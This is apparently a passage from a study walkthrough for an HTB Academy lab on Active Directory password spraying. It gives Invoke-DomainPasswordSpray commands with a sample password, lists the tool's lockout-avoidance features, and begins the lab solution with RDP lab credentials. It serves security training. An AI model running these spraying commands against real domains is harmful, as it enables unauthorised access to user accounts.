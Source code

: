 ### 🔍 **Custom User List (Non-Domain Context)**
```powershell
# For non-domain-joined scenarios
$users = @("user1", "user2", "user3", "admin", "service")
$users | Out-File -FilePath custom_users.txt -Encoding ASCII

Invoke-DomainPasswordSpray -UserList custom_users.txt -Password Welcome1 -Domain inlanefreight.local -OutFile results
```

### 🛡️ **Safety Features**
```powershell
# Tool automatically:
- Detects lockout thresholds (finds smallest threshold across domain)
- Excludes disabled accounts from spray list
- Removes users within 1 attempt of lockout
- Implements wait times between spray attempts
- Respects Fine-Grained Password Policies
- Provides confirmation prompts for large user lists
```

---

## 🎯 HTB Academy Lab Walkthrough

### 📝 Lab Question
*"Using the examples shown in this section, find a user with the password Winter2022. Submit the username as the answer."*

### 🚀 Step-by-Step Solution

#### 1️⃣ **Connect to Target Windows Host**
```bash
# RDP to target machine
xfreerdp /v:10.129.99.227 /u:htb-student /p:Academy_student_AD!
```

#### 2️⃣ **Access PowerShell as Administrator**
```powershell
# Right-click PowerShell -> Run as Administrator
# Navigate to tools directory
cd C:\Tools
```

#### 3️⃣ **Import DomainPasswordSpray Module**
```powershell
# Import the PowerShell module
Import-Module .\DomainPasswordSpray.ps1

# Verify module is loaded
Get-Command Invoke-DomainPasswordSpray
```
